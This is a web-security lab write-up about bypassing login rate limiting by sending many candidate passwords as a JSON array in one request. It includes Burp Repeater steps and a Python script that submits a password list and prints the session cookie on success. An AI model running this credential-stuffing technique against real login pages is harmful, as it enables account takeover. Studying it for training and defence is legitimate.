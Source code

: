 # User rate limiting
---
Another way _websites try to prevent brute-force attacks_ is through `user rate limiting`.
When making too many login requests within a short period of time. _It can block the IP address_.

Typically, the IP can only be _unblocked_ in one of the following ways:
- Automatically after a certain period of time has elapsed
- Manually by an administrator
- Manually by the user after successfully completing a CAPTCHA

As the limit is based on the rate of HTTP requests send from the user's IP address.
`Sometimes it's possible to bypass this defense mechanism if you can guess multiple passwords with a single request`.

# Lab: Broken brute-force protection, multiple credentials per request
---
1.  With Burp running, investigate the login page. 
	1. Notice that the `POST /login` request submits the login credentials in `JSON` format. 
	2. Send this request to Burp Repeater.
2.  In Burp Repeater, replace the single string value of the password with an array of strings containing all of the candidate passwords. 
	1. For example: `"username":"carlos", "password":["123456", "password", "qwerty" ...]`
3.  Send the request. This will return a `302` response.
4.  Right-click on this request and select **Show response in browser**. 
	1. Copy the URL and load it in the browser. 
	2. The page loads and you are logged in as `carlos`.
5.  Click **My account** to access Carlos's account page and solve the lab.

```python
#!/usr/bin/env python3
# Broken brute-force, multiple credentials per request
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def pass_list(pass_path):
    with open(pass_path, 'r') as f:
        passlist = []
        for passwords in f.readlines():
            password = passwords.replace('\n','')
            passlist.append(f'{password}')
        return(passlist)

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        user = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <user> <passwords>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com/login admin password".format(sys.argv[0]))
        sys.exit(1)

    print("[+] Trying with username...  [{}]".format(user))
    passwd = pass_list(password)
    data = {"username":user, "password":passwd}
    req = requests.post(url, json=data, verify=False, proxies=p, allow_redirects=False)
    if req.status_code == 302:
        print("[+] Seems like success...")
        print("[-] Status code...           [{}]".format(req.status_code))
        print("[-] Follow redirect...       [{}]".format(url.replace('/login',req.headers['Location'])))
        print("[-] Get the cookies...       [{}]".format(str(req.cookies).split()[1]))
```
